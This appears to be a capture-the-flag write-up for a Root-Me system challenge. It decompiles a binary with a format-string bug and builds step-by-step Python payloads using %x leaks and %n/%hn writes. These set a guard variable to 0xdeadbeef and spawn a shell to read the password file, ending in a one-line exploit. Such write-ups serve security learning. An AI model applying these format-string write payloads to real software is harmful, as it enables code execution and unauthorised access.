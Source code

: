 
###S0lv3d by H4yicl3

First I download binary file with my scp-script
```
#!/bin/sh
echo "password = app-systeme-$1"
scp -P2222 app-systeme-$1@challenge02.root-me.org:./$1 ./

then ./scp [name_of_challenge]
```

I use IDA to analysis the code .
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@6
  int v4; // edx@8
  int check; // [sp+28h] [bp-90h]@1
  int buf; // [sp+2Ch] [bp-8Ch]@3
  int stackcookie; // [sp+ACh] [bp-Ch]@1

  stackcookie = *MK_FP(__GS__, 20);
  check = 0x4030201;
  if ( argc <= 1 )
    exit(0);
  memset(&buf, 0, 0x80u);
  printf("check at 0x%x\n", &check); 		//not bug
  printf("argv[1] = [%s]\n", argv[1]);		//not bug
  snprintf((char *)&buf, 0x80u, argv[1]);
  if ( check != 0x4030201 && check != 0xDEADBEEF )
    puts("\nYou are on the right way !");
  printf("fmt=[%s]\n", &buf);			//not bug
  printf("check=0x%x\n", check);		//not bug 
  result = check;
  if ( check == 0xDEADBEEF )
  {
    puts("Yeah dude ! You win !");
    result = system("/bin/dash");
  }
  v4 = *MK_FP(__GS__, 20) ^ stackcookie;
  return result;
}
```
Try to understand the program you know!
The 4 line printf is safe !! but it give us more information like a vuln!
>The first we need to find the address of check
>Then we must modify it become 0xdeadbeef
>after we have controled /bin/dash
How can?
%n give us to midify the address we point in format string
%+offset+$+n give us modify specific position you know

try to read it maybe
chrome-extension://oemmndcbldboiebfnladdacbdfmadadm/https://www.exploit-db.com/docs/28476.pdf

Maybe next !!
the script i try 
```python
A="A"*4
padding ="%x_"*50
print A+padding
```
then i run this
```
python ch14.py >input
./ch14 `cat input`
check at 0xffffd648
argv[1] = [AAAA%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_]
fmt=[AAAAf7fd8b48_1_0_1_ffffd6e4_0_0_4030201_41414141_64663766_38346238_305f315f_665f315f_64666666_5f346536_5f305f30_30333034_5f3130]
check=0x4030201
```
>the first line you see the address of check (0xffffd648) you know !
>the third line you see the string"AAAA" i import at first then we see in fmt have the value 0x41414141 . it is the address we can insert !
>we can change "AAAA" become address of check ! you know ?
>and offset 0x41414141 is 9 ! we can count
>so we can use %+offset+$n to modified the check value !! maybe!

the script i change after is
```python
address="\x48\xd6\xff\xff"
padding ="%9$hn"
print address+padding
```
the result we get
```
./ch14 `cat input`
check at 0xffffd648
argv[1] = [H���%9$hn]

You are on the right way !
fmt=[H���]
check=0x4030004
```
we get "You are on the right way!"
So we just modified 0x40302010 become 0x4030004
that mean we just changed the 2 byte after
We want to change 2 byte before we need change 0xffffd648 become 0xffffd650
try to understand that with $n used to modify 2 byte so we need to add a address and modify 2byte next !! You know ?
>but we need to modify 0x4030004 be come 0x403beef before
0xbeef=48879 but we have 0004 so we need 48879-4 = 48875
```python
address="\x48\xd6\xff\xff"
padding ="%48875d%9$hn"  # add with % numberd (%48875d)
print address+padding
```
the result
```
./ch14 `cat input`
check at 0xffffd648
argv[1] = [H���%48875d%9$n]
You are on the right way !
fmt=[H���                                                                                                                         ]
check=0xbeef
```
we get 0xbeef 
so we add the 2 byte before by next python script
```python
address="\x38\xd6\xff\xff"
address2="\x3a\xd6\xff\xff"
padding ="%48875d%9$n"
padding +="%10$n"
print address + address2 + padding
```
>notice: i change address 0xffffd648 become 0xffffd638 .
because the result is
```
./ch14 `cat input`
check at 0xffffd638
argv[1] = [8���:���%48875d%9$n%10$n]

You are on the right way !
fmt=[]
check=0xbef3bef3
```
now the check is at 0xffffd638 !!
and we change check become 0xbef3bef3 ? 0xbeef ?
>ok we try get 48875-4 be cause we already add 1 address with 4 byte
>4 byte next is 0xdead !! 0xdead -0xbeef = 8126
the python script now look like
```python
address="\x38\xd6\xff\xff"
address2="\x3a\xd6\xff\xff"
padding ="%48871d%9$n"
padding +="%8126d%10$n"
print address + address2 + padding
```
>48875-4 =48871
>%8126d added
the result is 
```
./ch14 `cat input`
check at 0xffffd638
argv[1] = [8���:���%48871d%9$n%8126d%10$n]
fmt=[]
check=0xdeadbeef
Yeah dude ! You win !
$ 
```

Now we can  cat .passwd!! GLHF!

the following script in 1 line
```python
./ch14 $(python -c 'print "\x38\xfb\xff\xbf\x3a\xfb\xff\xbf"+"%48871d%9$n%8126d%10$n"')
check at 0xbffffb38
argv[1] = [x���z���%48871d%9$n%8126d%10$n]
fmt=[]
check=0xdeadbeef
Yeah dude ! You win !
$ 
```
